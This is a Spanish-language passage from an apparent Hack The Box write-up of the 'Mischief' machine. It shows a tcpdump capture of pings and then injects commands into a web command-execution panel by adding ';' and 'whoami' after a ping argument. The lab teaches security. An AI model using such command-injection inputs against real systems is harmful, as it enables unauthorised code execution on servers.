 Y nos llega

```bash
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:07:31.601113 IP 10.10.10.92 > 10.10.14.12: ICMP echo request, id 1596, seq 1, length 64
15:07:31.601143 IP 10.10.14.12 > 10.10.10.92: ICMP echo reply, id 1596, seq 1, length 64
15:07:32.717001 IP 10.10.10.92 > 10.10.14.12: ICMP echo request, id 1596, seq 2, length 64
15:07:32.717023 IP 10.10.14.12 > 10.10.10.92: ICMP echo reply, id 1596, seq 2, length 64
```

Lo que podemos hacer es concatenar un **;** para ver si podemos ejecutar otro comando por ejemplo `ping -c 2 127.0.0.1; whoami` pero en lo raro es que ahora nos muestra el **output** del primer comando solamente 

![](/assets/images/htb-writeup-mischief/web15.png)

Algo que podemos tratar de hacer borrar el **ping** por que bueno nos dicen que es un **Command Execution Panel** así que podemos tratar de ejecutar el **whoami** solamente pero indicándole el **;** por que ya vimos que indicándole esto podemos ver básicamente el **output** del comando 

![](/assets/images/htb-writeup-mischief/web16.png)
